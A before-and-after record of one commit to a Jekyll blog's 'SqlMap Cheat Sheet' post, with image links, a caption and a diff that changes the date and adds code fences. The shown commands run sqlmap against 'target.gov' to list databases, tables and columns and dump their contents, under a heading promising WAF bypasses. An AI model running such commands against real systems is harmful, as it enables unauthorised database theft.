

Before and after one commit to zufan-students/blog, a Jekyll site: the page built from _posts/2022-08-29-SqlMap-CheatSheet.md, in a window 1280 px wide and 900 px high, scrolled down 279 px. Shown: the whole window, without its empty margins (251-1028 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2022-08-29-SqlMap-CheatSheet.md
+++ b/_posts/2022-08-29-SqlMap-CheatSheet.md
@@ -1,6 +1,6 @@
 ---
 title: "SqlMap Cheat Sheet"
-date: 2022-08-29 23:00:00 +07:00
+date: 2022-08-29 22:30:00 +07:00
 categories: [Cheat]
 tags: [Cheat Sheet, WriteUps]
 image:
@@ -9,6 +9,7 @@ image:
 # SQLmap Special Command
 
 # 1. BASIC COMMAND SQLMAP
+```
 - sqlmap -u "target.gov" --dbs --batch
 
 - sqlmap -u "target.gov" -D ( name database ) --columns --batch
@@ -16,6 +17,7 @@ image:
 - sqlmap -u "target.gov" -D ( name database ) -T ( name table ) --columns --batch
 
 - sqlmap -u "target.gov" -D ( name database ) -T ( name table ) -C ( name column ) --dump --batch
+```
 
 # 2. WAF BYPASS TYPE
 ## all bypass waf forbidden
````
